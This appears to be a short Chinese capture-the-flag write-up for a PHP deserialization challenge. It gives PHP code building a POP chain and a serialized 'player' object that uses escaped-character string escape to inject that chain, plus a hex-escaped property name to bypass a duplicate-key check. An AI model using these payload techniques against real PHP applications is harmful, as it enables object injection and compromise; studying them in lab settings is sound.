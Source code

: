 

简单的反序列化链,构造如下

```php
<?php
class topsolo{

	protected $name ;
	public function __construct(){
        $this->name = new midsolo();
    }
}


class midsolo{
    protected $name;
    public function __construct(){
        $this->name = new jungle();
    }
}

class jungle{

}
$a = new topsolo();
?>
```



目的很明确 通过逃逸将pop塞入 通过username 和 password 写入player类的序列中

构造如下

```php
<?php

class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct(){
    	global $a;
        $this->user = '\\0*\\0\\0*\\0\\0*\\0\\0*\\0\\0*\\0\\0*\\0\\0*\\0\\0*\\0\\0*\\0\\0*\\0\\0*\\0';
        $this->pass = ';s:3:"aaa";'.serialize($a).'s:3:"ccc";i:7;}';
        $this->admin = 0;
    }
}
```



存在两个name ，是过不了check的，之前比赛也见到过 ，给整忘了 利用 S:4:"\6e\61\6d\65"  == s:4:"name" 即可绕过check，
